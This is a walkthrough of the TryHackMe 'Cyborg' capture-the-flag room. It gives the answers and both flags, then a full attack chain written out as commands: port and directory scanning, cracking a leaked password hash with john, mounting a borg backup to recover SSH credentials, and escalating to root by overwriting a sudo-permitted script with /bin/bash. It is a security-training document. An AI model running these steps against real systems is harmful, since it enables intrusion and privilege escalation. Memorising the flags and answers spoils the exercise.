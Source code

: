 <!-- CTF ROOM  -->
# Cyborg - TryHackMe
<!-- Author name  -->
> Keertan Singh, 19 July,2022
 <!-- image  -->
 #
 ![alt Cyborg](/images/5493020.jpg)
#
## Notes:
```
twitter: fieldraccoon
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn. = squidward
alex:S3cretP@s3
```
#
## Answer the questions below
<!-- Task 1  -->
#
###  Task 1 - Deploy the machine
- Deploy the machine
```
No answer needed
```
<!-- Task 2  -->
# 
### Task 2 - Compromise the system
- Scan the machine, how many ports are open?
```
2
```
- What service is running on port 22?
```
ssh
```
- What service is running on port 80?
```
http
```
- What is the user.txt flag?
```
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```
- What is the root.txt flag?
```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
# 
## Step by Step 
- Step 1 - Nmap scan \
You will get all your first 3 question. 
```
nmap -sC -sV -oG initial <your machine ip>
```
- Step - 2 \
Find all directories: 
```
gobuster dir -u http://10.10.66.102/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
you will get 2 directory: "/etc" and "/admin" . your will find password in hash form at : 
```
http://10.10.66.102/etc/squid/passwd
```
Password in hash form:
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```
Save hash in file [hash.txt]. \
Decrypt it with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```
Password is : "squidward"
- Step - 3 \
Download archieve.tar from:
```
http://10.10.66.102/admin/archive.tar
```
Make new directory for alex's backup:
```
mkdir unpacked
```
Now Mount Alex backup with borg:
use password key:
```
borg mount home/field/dev/final_archive unpacked
```
- Step - 4 \
Go to :
```
cd unpacked/music_archive/home/alex/Documents
```
Now read note.txt file, you will find alex credenitial:
```
alex:S3cretP@s3
```
Login with ssh:
```
ssh alex@10.10.66.102
```
Read user.txt file:
```
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
``` 
- Step - 5 - Privilege Escalation  \
check sudo permissions:
```
sudo -l
```
Everyone have permission as root to run "/etc/mp3backups/backup.sh" \
Edit and run this file :
```
chmod 777 /etc/mp3backups/backup.sh
echo "/bin/bash" > /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh
```
whoooo!! you are root user now. \
Read root.txt.
```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
#
